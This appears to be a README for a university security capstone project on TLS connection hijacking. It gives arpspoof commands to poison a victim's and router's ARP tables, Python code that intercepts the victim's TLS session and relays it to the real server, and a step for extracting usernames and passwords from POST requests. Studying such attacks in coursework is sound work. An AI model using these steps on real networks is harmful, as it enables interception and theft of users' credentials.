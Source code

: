 # Computer Security Capstone Project

---

## 📌 Table of Contents

- [1. Project 1 - TLS Connection Hijacking](#project-1---tls-connection-hijacking)
- [2. 套件與環境](#2-套件與環境)
- [3. 程式邏輯與說明](#3-程式邏輯與說明)
- [4. 測試與觀察結果](#4-測試與觀察結果)

---

## Project 1 - TLS Connection Hijacking

### GOAL
- Make use of arpspoofing to deceive router and victim
- Establish TLS connections between both attacker and victim, and attacker and web server
- Parsing HTML packets to ensure that the victim's browser displays the webpage properly.
- __Steal the password__ while victim is entering the login page

### STEP1 - ARP Spoofing
Make the __victim / router__ assume that the attacker is where the packet should go at next hop (originally the router / victim) by deceiving the arp packets.
```bash
sudo arpspoof -i <INTERFACE> -t <GATEWAY_IP> <CLIENT_IP>
sudo arpspoof -i <INTERFACE> -t <CLIENT_IP> <GATEWAY_IP>
```

### STEP2 - Hijacking a TLS Connection
Create a socket to make connection with victim, based on the previous ARP spoofing, the victim sends packets to the attacker. 
```python
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((HOST, PORT))
server.listen(5)

client_socket, addr = server.accept()
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=certFile, keyfile=keyFile)
victim_connection = context.wrap_socket(client_socket, server_side=True)
```
Create connections between attacker and server, the server sends website information to router, and based on the previous ARP spoofing, the router will sends packets back to attacker, too.
```python
context = ssl.create_default_context()
server_connection = context.wrap_socket(socket.socket(socket.AF_INET), server_hostname=host)

server_connection.connect((host, port))
server_connection.sendall(request)
```

### STEP3 - Handle Large Packets
Normally, the size of a website is huge that one must handle packet several times. By parsing HTML header, coping with large packets will be much easier.
- HTML header format
  - "\r\n\r\n" at the end of header
  - every header is splited by "\r\n"
  - find __Content-Length__ and __Trandfer-Encoding__
- Content-Length
  - Recording the total size of the entire web page.
- Tansfer-Encoding
  - Sometimes, "Content-Length" won't be used instead of "Transfer-Encoding" since there might be a dynamic generated pages
  - If the tag is "Chunked", each chunk indicates its own length, and a final chunk with a length of 0 signals the end.
```text
4\r\n
Wiki\r\n
5\r\n
pedia\r\n
0\r\n
\r\n
```

### STEP4 - STEAL Password
- Find header named "Type", if the type of this request is post, check HTML body and the body format will be,
```text
username=<username>&password=<password>
```
